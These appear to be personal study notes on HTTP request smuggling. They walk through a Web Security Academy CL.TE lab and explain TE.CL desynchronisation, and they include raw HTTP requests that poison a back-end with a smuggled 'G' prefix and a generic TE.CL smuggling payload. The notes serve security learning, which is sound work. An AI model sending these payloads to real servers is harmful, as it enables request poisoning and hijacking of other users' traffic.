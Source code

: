 ```http
POST / HTTP/1.1
Host: 0ae600470307d0528439228d009d0001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

In the attack request, modify the request body to indicate to the back-end that the chunked message has ended via a terminating chunk and then poison the backend with a prefix such as `G`. 

>[!info]
>Think about the front-end server - it should forward the entire request body to the back end server so the Content-Length should match the actual bytes (i.e. `6`).

```http
POST / HTTP/1.1
Host: 0ae600470307d0528439228d009d0001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

After sending the attack and normal request, it should return an unrecognized method of `GPOST` due to the poisoning.

![[GPOST.png]]
# TE.CL Vulnerabilities

In TE.CL, the front-end uses the TE header and the back-end uses the CL header. To perform a simple HTTP request smuggling attack:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

The front-end processes the TE header and treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following `SMUGGLED`. It processes the second chunk, which is stated to be 0, and is treated as a terminating chunk and forwards to the back-end.

The back-end processes the CL header and determines that the request body is 3 bytes long, up to the start of the line following `8`. The following bytes are left unprocessed and the back-end treats them as being the start of the next request in the sequence.
# Exploiting TE.CL Request Smuggling
